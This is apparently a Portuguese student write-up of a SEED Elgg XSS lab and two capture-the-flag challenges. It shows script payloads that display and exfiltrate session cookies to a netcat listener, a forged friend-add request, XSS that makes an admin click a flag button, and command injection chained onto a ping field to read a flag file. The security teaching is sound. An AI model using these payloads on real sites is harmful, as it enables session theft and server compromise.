# TAREFA 1
- Depois de entrar na conta da Alice e de adicionar na ```brief description``` o seguinte programa, que apenas faz com que apareça um alerta com o texto XSS. 
```html 
<script>alert(’XSS’);</script> 
```
Ao voltarmos a visualizar o perfil dela deparamonos com o alerta mandado pelo javascript




# TAREFA 2

- Após altermos o código na ```brief description``` para
```html 
<script>alert(document.cookie);</script> 
```
vimos que ao acedermos ao perfil da Alice aparece o alerta com a cookie do utilizador. Isto deve-se ao facto de que em javascript ```document``` identifica a página toda e dentro da página selecionamos o elemento ```cookie```.

Isto também acontece quando outro utilizador visita o perfil da Alice.


# TAREFA 3

Correndo 
```bash
nc -lknv 5555
```
conseguimos "ouvir" todos os pedidos feitos à porta `5555`.
Após a alteração do código da `brief description` da Alice para 
```html
<script>document.write(’’);
</script>
```
sempre que acedemos ao perfil da Alice vamos mandar para a porta `5555` do atacante as cookies da sessão. 
<br>
Isto acontece porque o JavaScript, ao inserir uma imagem, faz com que o browser tente dar load da imagem do URL colocado no campo `src`, isto resulta no pedido `HTTP GET` para esse `src` que neste caso é a porta `5555` da máquina do atacante.




# TAREFA 4
- Primeiramente, decidimos ver como era feito um pedido de amigo no site. Ao fazer hover no botão `Add friend` e ao inspecionar o elemento vimos que o site faz o pedido
```bash
www.seed-server.com/action/friends/add?friend=x&__elgg_ts=y&__elgg_toke=z
```
sendo o `x` o id do utilizador e o `y` e o `z` tokens de segurança. Vimos também que o id do `Samy` é 59.




- De seguida fomos alterar o perfil do `Samy` e colocamos no `Text Mode` do `About Me` o seguinte:



- Ao entrar na conta da `Alice` e ir ao perfil do `Samy` vimos que ao inspecionar a `Network` foi feito um pedido para adicionar o `Samy` como amigo sem clicar no botão `Add friend`.


Indo depois aos amigos de `Alice` conseguimos ver o `Samy` na lista de amigos.


- Este ataque só funciona no `Text Mode` do `About Me` uma vez que o `Editor mode` pega no texto inserido e vai automaticamente colocar o texto em `<p>` e transformar caracteres não permitidos, por exemplo o `<`, como é possível ver nas imagens:






# CTF 1

Pela descrição e contexto do desafio, percebemos que uma estratégia possível para obter a flag é recorrer a XSS para fazer com que o admin "carregue" no botão que fornece a flag, visto que é dito no enunciado que a página do admin é igual à página que o utilizador vê. 
Assim sendo, obtivemos o id do botão que queremos pressionar usando a funcionalidade de "Inspecionar elemento" que é disponibilizada pelo Firefox:


O passo seguinte foi usar a função "click()" do javascript para fazer com que o admin carregue no botão por nós:


Por fim, obtivemos a flag:


# CTF 2
A primeira coisa que decidimos fazer foi testar todas as funcionalidades do sistema.
A funcionalidade que achámos mais provável de conseguir abusar foi a `Ping`.
Primeiro testamos enviar um IP qualquer, neste caso `8.8.8.8`, e ver o resultado.



Reparamos que é executado o comando `ping`. O comando `ping` é um utilitário que é usado para testar e verificar se um endereço IP existe.<br>
Como é um utilitário linux podemos fazer uma chain de comandos à nossa escolha usando `&&`, neste caso testamos o comando `ls`:




Como se pode ver na imagem de cima, no final do comando `ping` conseguimos ver os ficheiros que se encontram no diretório atual.
<br>
<br>
Sabendo que o comando `ls` funciona então basta correr `cat /flags/flag.txt` para conseguir a flag



